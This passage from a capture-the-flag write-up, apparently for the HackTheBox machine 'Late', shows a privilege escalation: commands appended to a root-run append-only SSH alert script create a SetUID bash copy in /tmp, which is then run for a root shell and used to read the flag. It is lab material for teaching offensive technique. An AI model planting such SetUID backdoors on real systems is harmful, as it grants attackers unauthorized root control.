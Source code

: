 
Despite being the owner for the file, svc_acc is not able to remove that:

    
    
    svc_acc@late:~$ chattr -a /usr/local/sbin/ssh-alert.sh
    chattr: Operation not permitted while setting flags on /usr/local/sbin/ssh-alert.sh
    

That’s because (from the [man page](https://man7.org/linux/man-
pages/man1/chattr.1.html)):

>
>            a      A file with the 'a' attribute set can only be opened in
>                   append mode for writing.  Only the superuser or a process
>                   possessing the CAP_LINUX_IMMUTABLE capability can set or
>                   clear this attribute.
>  

Still, appending is good enough for exploiting.

Also, it seems that every minute this file is getting reset to it’s original
version, based on the timestamp analysis.

### Exploit

To exploit this, I’ll use the following line to create a SetUID Bash
executable:

    
    
    svc_acc@late:~$ echo -e "cp /bin/bash /tmp/.0xdf\nchmod 4755 /tmp/.0xdf"
    cp /bin/bash /tmp/.0xdf
    chmod 4755 /tmp/.0xdf
    svc_acc@late:~$ echo -e "cp /bin/bash /tmp/.0xdf\nchmod 4755 /tmp/.0xdf" >> /usr/local/sbin/ssh-alert.sh
    

Now I’ll log in over SSH as svc_acc, and there’s `.0xdf` owned by root with
the SetUID bit on:

    
    
    svc_acc@late:~$ ls -l /tmp/.0xdf
    -rwsr-xr-x 1 root root 1113504 Jul 25 21:12 /tmp/.0xdf
    

I’ll run with `-p` to not drop privileges and get a root shell:

    
    
    svc_acc@late:~$ /tmp/.0xdf -p
    .0xdf-4.4#
    

And read `root.txt`:

    
    
    .0xdf-4.4# cat root.txt
    f8f10a31************************
    

## Beyond Root
